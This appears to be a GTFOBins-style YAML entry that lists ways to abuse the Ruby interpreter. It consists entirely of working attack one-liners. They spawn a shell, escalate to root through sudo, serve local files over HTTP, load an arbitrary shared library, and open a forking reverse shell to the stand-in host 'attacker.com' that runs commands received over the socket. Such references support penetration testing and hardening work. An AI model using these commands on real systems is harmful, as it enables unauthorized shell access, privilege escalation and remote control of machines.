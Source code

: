 ```yaml
---
functions:
  execute-interactive:
    - code: ruby -e 'exec "/bin/sh"'
  sudo-enabled:
    - code: sudo ruby -e 'exec "/bin/sh"'
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  load-library:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
---
```

